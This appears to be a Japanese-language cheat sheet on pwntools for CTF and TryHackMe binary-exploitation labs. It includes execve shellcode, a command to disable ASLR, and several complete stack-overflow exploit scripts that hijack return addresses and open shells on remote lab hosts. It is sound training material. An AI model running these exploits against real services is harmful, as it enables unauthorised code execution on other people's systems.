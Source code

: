 # pwntools

https://github.com/Gallopsled/pwntools

https://tryhackme.com/room/introtopwntools

## インストール

kali の場合、pwn と打ってインストールされていなければインストールするか聞かれるので Yes と答えるだけ。

## コマンド

### checksec

```shell
# 実行ファイルで有効になっているセキュリティ機構を調べる
checksec --file <file>
```

### cyclic

```shell
cyclic 100 > pattern

cat pattern
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```shell
# バッファオーバーフローをテストする
gdb> r < pattern
```

eip が `jaaa` で上書きされていたとして、その部分を目的の関数アドレスにしたペイロードを作成したい場合。

```python
# gdb> disassemble <function> 等で関数アドレスを得る
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x08048536)
payload = padding + eip
print(payload)
```

### shellcraft

64ビットの場合、amd64.linux.execve

```shell
# シェルコードのアセンブラ出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

# シェルコードのバイトコード出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```

```shell
# SETREUID のシェルコード出力
pwn shellcraft -f d amd64.linux.setreuid 1002
```

シェルコードを埋め込む例

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
# ブレークポイント命令（シェルコードを入れる前のテスト用）
# shellcode = "\xcc"
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode

proc.send(payload)

# シェルと通信するためインタラクティブが必要
proc.interactive()
```

（参考）ASLR（アドレス空間配置のランダム化）無効化

```shell
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

## ネットワーク経由

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)

print(connect.recvn(34))
```

## バイナリ解析

```python
# ライブラリをロード
>>> from pwn import *

# バイナリをロード
>>> binary = context.binary = ELF("./elf_file")

# 関数のアドレス
>>> hex(binary.symbols['vuln'])

# retガジェット
>>> ret_gadget = ROP(binary).find_gadget(['ret'])[0]
```

## 例

### バッファオーバーフロー

```shell
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

上記の例で、binary と 2 か所の context は、コメントアウトしても機能する。

### retガジェット

64ビットOSで、RSPが16バイト境界にない場合、retガジェットが必要になる。

RSP  0x7fffffffdcf8　のように、末尾が0出ない場合ずれている。

```python
from pwn import *

# Set the binary context
elf = context.binary = ELF('./tryretme')  # Replace with the actual binary name

# Connect to the remote server
p = remote('10.10.23.250', 9006)

# Address of the win function
win_addr = elf.symbols['win']

# Address of a `ret` gadget (you can find this with tools like ROPgadget or Pwntools)
# This gadget is simply one instruction: `ret`, which fixes stack alignment.
ret_gadget = ROP(elf).find_gadget(['ret'])[0]

# Offset (determined from cyclic_find)
offset = 264

# Payload: buffer + ret gadget + return address (win function)
payload = b'A' * offset
payload += p64(ret_gadget)  # Add the ret gadget to fix alignment
payload += p64(win_addr)

# Send the payload
p.sendlineafter('Return to where? : ', payload)

# Interact with the shell
p.interactive()
```

### 受信したデータをペイロードに反映する

TryPwnMeOne CTF 参照。

```python
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.61.104"
port = 9007

vuln_addr = 0x1319
win_addr = 0x1210
ret_gadget = 0x101a

context(os = "linux", arch = "amd64")
connect = remote(host, port)

# vuln関数アドレスを表示する行を受信するまで待つ
while True:
    line = connect.recvline().decode()
    log.info(f"{line.strip()}")
    if "I can give you a secret" in line:
        break

# アドレス部分（16進数）を抽出
match = re.search(r"I can give you a secret ([0-9a-fA-F]+)", line)
if match:
    vuln_abs_addr = int(match.group(1), 16)
    log.info(f"[+] vuln address: {hex(vuln_abs_addr)}")
    offset = vuln_abs_addr - vuln_addr
else:
    log.error("vulnアドレスの抽出に失敗しました")
    sys.exit(1)

log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"Where are we going? : ")
log.info("[+] Crafting payload")
payload = b'A' * (256+8)

payload += p64(offset + ret_gadget) # retガジェット
payload += p64(offset + win_addr)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```
